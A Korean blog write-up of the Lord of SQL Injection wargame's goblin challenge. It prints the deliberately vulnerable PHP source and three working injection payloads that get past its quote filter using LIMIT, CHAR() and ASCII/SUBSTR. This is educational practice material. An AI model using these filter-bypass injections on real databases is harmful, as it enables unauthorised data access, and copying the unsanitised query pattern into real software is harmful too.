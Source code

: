 ```yaml
---
title: Lord of SQL Injection Write Up No.3 Goblin
date: 2019-08-14 21:34:04
updated:
categories:
  - Write Up
tags:
  - Lord of SQL Injection
  - Infosec
---
```


## 개요

{% img /image/los-main.png 300 %}

SQL Injection에 대한 지식을 쌓기 위해 [Lord of SQL Injection 사이트](https://los.eagle-jump.org/)의 문제를 풀고 해답을 정리한다.

이 문서에서는 Lord of SQL Injection 3번 goblin 문제에 대하여 정리한다.

<!-- more -->

## 문제 분석

### 문제 출제 의도

따옴표를 사용하지 않고 원하는 문자열을 `SELECT` 하도록 SQL을 조작할 수 있는지 확인한다.

### 소스 코드 분석

goblin 문제의 php 소스 코드는 다음과 같다.

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~");
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~");
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__);
?>
```

#### Filter

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~");
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~");
```

- GET 방식으로 `no`를 받고, `no`에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.
- 또한, `no`에 `'`, `"`, \` 가 들어 있으면 `No Quotes ~_~`가 뜨고 문제 풀이에 실패한다.

#### Query

```php
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("goblin");
```

- 받은 `no`가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.
- 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 `id`에 `"admin"`이라는 값이 들어있음'이다.

## Solution

1. `LIMIT` 구문 이용

   ```url
   http://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=-1 or 1=1 limit 1,1-- -
   ```

   ```sql
   select id from prob_goblin where id='guest' and no=-1 or 1=1 limit 1,1-- -
   ```

   `LIMIT` 구문을 이용한 SQL Injection이 잘 이해가 되지 않으면 **2번 Cobolt 문제 Write Up**의 **3번 Solution** 부분을 참고하자.

2. `CHAR` 함수 및 ASCII 코드 활용

   ```url
   http://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=-1 or id=char(97, 100, 109, 105, 110)-- -
   ```

   ```sql
   select id from prob_goblin where id='guest' and no=-1 or id=char(97, 100, 109, 105, 110)-- -
   ```

   이는 ASCII에서 10진수 표기를 문자 표기로 바꿔주는 MySQL 함수인 `CHAR`를 이용하여 `id`가 `admin`인 행을 찾아 선택하도록 만든다.
   ASCII에서, `'a'`=`97`, `'d'`=`100`, `'m'`=`109`, `'i'`=`105`, `'n'`=`110`이다.

   따라서 이는 `$result['id']`에 `'admin'`이 들어가도록 하므로 문제가 풀린다.

3. `ASCII`, `SUBSTR` 함수 및 ASCII 코드 활용

   ```url
   http://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=-1 or ascii(substr(id, 1, 1))=97-- -
   ```

   ```sql
   select id from prob_goblin where id='guest' and no=-1 or ascii(substr(id, 1, 1))=97-- -
   ```

   이는 ASCII에서 문자 표기자 10진수 표기로 바꿔주는 MySQL 함수인 `ASCII를` 이용하여 `id`가 `a`로 시작하는 행을 찾아 선택하도록 만든다.
   이번에는 운이 좋아 a로 시작하는 첫번째 행이 admin이었지만, 만약 안되면 1번째 글자가 `a`, 2번째 글자가 `d`, 3번째 글자가 `m`, 4번째 글자가 `i`, 5번째 글자가 `n`인 행을 찾도록 조작하면 된다.
   ASCII에서, `'a'`=`97`이다.

   따라서 이는 `$result['id']`에 `'admin'`이 들어가도록 하므로 문제가 풀린다.
